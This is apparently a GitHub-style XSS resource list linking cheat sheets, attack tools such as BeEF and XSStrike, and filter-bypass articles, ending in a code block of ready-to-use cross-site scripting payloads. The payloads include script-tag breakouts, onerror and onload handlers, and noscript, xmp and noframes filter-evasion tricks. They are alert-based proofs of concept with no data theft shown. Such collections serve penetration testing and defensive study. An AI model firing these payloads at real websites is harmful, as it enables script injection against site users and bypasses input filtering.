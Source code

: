 # xss sets
[Sec-wiki XSS](https://www.sec-wiki.com/news/search?wd=xss) 
[XSS过滤绕过速查表](https://www.freebuf.com/articles/web/153055.html)  

# Tools
[Beef](https://github.com/beefproject/beef)  
[XSStrike](https://github.com/s0md3v/XSStrike)  
[xssor2](https://github.com/evilcos/xssor2)  
[xssfork](https://github.com/bsmali4/xssfork)  
[XSS-Filter-Evasion-Cheat-Sheet-CN](https://github.com/l3m0n/XSS-Filter-Evasion-Cheat-Sheet-CN)  

# blogs
[BRUTE XSS](http://brutelogic.com.br/blog/)  

# articles
[Bypass XSS Protection with xmp, noscript, noframes.. etc](https://www.hahwul.com/2019/04/bypass-xss-protection-with-xmp-noscript-etc....html)  
[XSS attacks on Googlebot allow search index manipulation](https://www.tomanthony.co.uk/blog/xss-attacks-googlebot-index-manipulation/)  
[A WOrmable XSS on HackMD](https://blog.orange.tw/2019/03/a-wormable-xss-on-hackmd.html)  
[Breaking XSS mitigations via Script Gadgets](https://www.blackhat.com/docs/us-17/thursday/us-17-Lekies-Dont-Trust-The-DOM-Bypassing-XSS-Mitigations-Via-Script-Gadgets.pdf)[pocs](https://github.com/google/security-research-pocs/tree/master/script-gadgets)  
[Google搜索中的突变XSS](https://xz.aliyun.com/t/4865)  
[特斯拉上价值10000美元的XSS漏洞](https://nosec.org/home/detail/2781.html)  

[About Google](https://nosec.org/home/detail/2449.html)  
[Xss Sets](https://www.hahwul.com/2019/04/bypass-xss-protection-with-xmp-noscript-etc....html)  

```JavaScript
<script>alert(1)</script>
"><script>alert(1)</script>
"><script>alert(document.domain)</script>
"><script>alert(1)</script><" 
'"><script>alert(1)</script>
'"><script>alert(1)</script>"
';"<script>alert(1)</script>
</script><script>alert(1)</script>
<img src='' onerror=alert(/poc/)>
<img src=1 alt="xss＂onerror=alert(1);//">
<DIV STYLE="width: ｅxpression(alert('XSS'));">
"><BODY ONLOAD=alert(1)>,1/

</title><script>alert(/poc/)</script>
<STYLE>@im\port'\ja\vasc\ript:alert("XSS")';</STYLE> 
<noscript><p title="</noscript><img src=x onerror=alert(1)>">
<noscript><p title="</noscript><svg/onload=alert(1)>">
<xmp><p title="</xmp><svg/onload=alert(1)>">
<noframes><p title="</noframes><svg/onload=alert(1)>">
<iframe><p title="</iframe><svg/onload=alert(1)>">
<iframe style="visibility:hidden"><p title="</iframe><svg/onload=alert(1)>">
<svg onload=alert(document.domain)>

location:
<body/onload=eval(location.hash.slice(1))>#alert(1)
<body/onload=setTimeout(location.hash.substr(1))>#alert(1)

```
